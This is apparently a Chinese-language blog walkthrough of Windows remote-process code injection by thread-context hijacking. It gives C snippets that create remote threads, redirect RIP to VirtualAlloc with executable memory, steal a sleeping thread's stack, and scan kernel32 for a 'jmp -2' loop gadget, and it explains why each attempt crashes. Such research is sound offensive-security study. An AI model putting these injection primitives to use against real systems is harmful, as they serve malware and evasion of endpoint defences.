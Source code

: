 首先远程创建一个处于挂起状态的线程，接着使用GetThreadContext、SetThreadContext、ResumeThread恢复线程：  
```
 HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pfnMessageBoxA, NULL, CREATE_SUSPENDED, NULL);printf("[+] Thread ID: %d\n", GetThreadId(hThread));// Change Context CONTEXT ctx; ctx.ContextFlags = CONTEXT_ALL; GetThreadContext(hThread, &ctx); ctx.Rip = pfnVirtualAlloc; ctx.Rcx = NULL; ctx.Rdx = 0x2000; ctx.R8 = MEM_RESERVE | MEM_COMMIT; ctx.R9 = PAGE_EXECUTE_READWRITE; SetThreadContext(hThread, &ctx); ResumeThread(hThread); WaitForSingleObject(hThread, INFINITE);
```  
  
结果就是崩溃。。。原因是线程以空堆栈启动即不是一个正常的堆栈，从VirtualAlloc返回发生了内存访问冲突。到底有没有调用到VirtualAlloc呢？有的，可以试试换成MessageBoxA（记得rdx、r8设为NULL更好，因为对于目标进程不是一个有效的地址），直到去掉弹框，就寄了。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/FnzeUmRapq7hYz1Vb1OIWnKF75FbUaiafg9Aiafk8J4A985TKZjxYqGH293O9iaGQHyl9Fa9icnxULeDYNKLRWLicHw/640?wx_fmt=png&from=appmsg "")  
>   
> 为什么直接使用CreateRemoteThread不会崩溃呢？因为正常启动一个线程时，线程初始化会经历RtlUserThreadStart->BaseThreadinitThunk的过程，这个过程会设置正常的堆栈框架等，最后调用目标例程。  
  
  
所以萌生了第二个想法，不是要获取一个正常的初始堆栈吗？那我偷一个。  
### Stealing Valid Stack from Another Thread  
  
由于一定需要一个正常的堆栈，所以作者考虑让新线程执行Sleep睡眠，窃取这个堆栈，然后创建第二个挂起线程并覆盖CONTEXT。  
```
 HANDLE hSleepThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pfnSleep, INFINITE, 0, NULL);printf("[+] Sleep Thread ID: %d\n", GetThreadId(hSleepThread)); Sleep(1000); CONTEXT ctx; ctx.ContextFlags = CONTEXT_ALL; GetThreadContext(hSleepThread, &ctx); HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pfnMessageBoxA, INFINITE, CREATE_SUSPENDED, NULL); CONTEXT ctx2; ctx2.ContextFlags = CONTEXT_ALL; GetThreadContext(hThread, &ctx2); ctx2.Rip = pfnVirtualAlloc; ctx2.Rsp = ctx.Rsp; ctx2.Rcx = NULL;  ctx2.Rdx = 0x2000; ctx2.R8 = MEM_RESERVE | MEM_COMMIT; ctx2.R9 = PAGE_EXECUTE_READWRITE; SetThreadContext(hThread, &ctx2); ResumeThread(hThread);
```  
  
结果也是返回过程中出现崩溃，原因是剽窃的堆栈有效但是新线程的TEB为空，新线程BaseThreadInitThunk需要初始化字段（SEH列表、TLS等），取消引用TEB->NtTib.ExceptionList会触发内存访问冲突。  
### Hijacking the Sacrificial Sleep Thread  
  
创建一个执行Sleep的线程，线程在休眠时期劫持CONTEXT，设置RIP为VirtualAlloc以及其参数，等到Sleep结束，线程应该在VirtualAlloc中恢复。  
```
 HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pfnSleep, 10000, 0, NULL); printf("[+] Sleep Thread ID: %d\n", GetThreadId(hThread)); Sleep(1000); CONTEXT ctx; ctx.ContextFlags = CONTEXT_ALL; GetThreadContext(hThread, &ctx); ctx.Rip = pfnVirtualAlloc; ctx.Rcx = NULL; ctx.Rdx = 0x2000; ctx.R8 = MEM_RESERVE | MEM_COMMIT; ctx.R9 = PAGE_EXECUTE_READWRITE; SetThreadContext(hThread, &ctx);
```  
  
结果是线程按照预期执行到VIrtualAlloc且ProcessHacker可以看到线程栈确实存在，但是VirtualAlloc之后栈就没有了，可知VirtualAlloc失败返回时会崩溃。原因是睡眠期间只有RIP可以可靠得写入，睡眠结束后似乎会覆盖忽略其余得上下文。  
### Sleep alternative, the Loop Gadget and CFG  
  
根据上一个方法的启发，我们需要寻找一种不会影响寄存器又方便我们修改线程上下文的方式，所以想到了jmp -2，实现代码如下：  
```
 MEMORY_BASIC_INFORMATION mbi; BYTE* baseAddress = (BYTE*)hKernel32; BYTE* currentAddress = baseAddress; BYTE pattern[] = { 0xEB, 0xFE }; ULONG_PTR targetAddress = NULL;while (VirtualQuery(currentAddress, &mbi, sizeof(mbi))) {if (mbi.State == MEM_COMMIT && (mbi.Protect & PAGE_EXECUTE_READ)) {   BYTE* start = (BYTE*)mbi.BaseAddress;   BYTE* end = start + mbi.RegionSize;   for (BYTE* ptr = start; ptr < end - sizeof(pattern) + 1; ptr++) {    if (ptr[0] == pattern[0] && ptr[1] == pattern[1]) {     targetAddress = (ULONG_PTR)ptr;     printf("[+] Found JMP -2 at: 0x%p\n", ptr);     break;    }   }   if (targetAddress) break;  }  currentAddress = (BYTE*)mbi.BaseAddress + mbi.RegionSize; } system("pause"); HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)targetAddress, NULL, 0, NULL);//HANDLE hThread = CreateThread(0, 0, targetAddress, 0, 0, 0);printf("[+] Sleep Thread ID: %d\n", GetThreadId(hThread));
```  
  
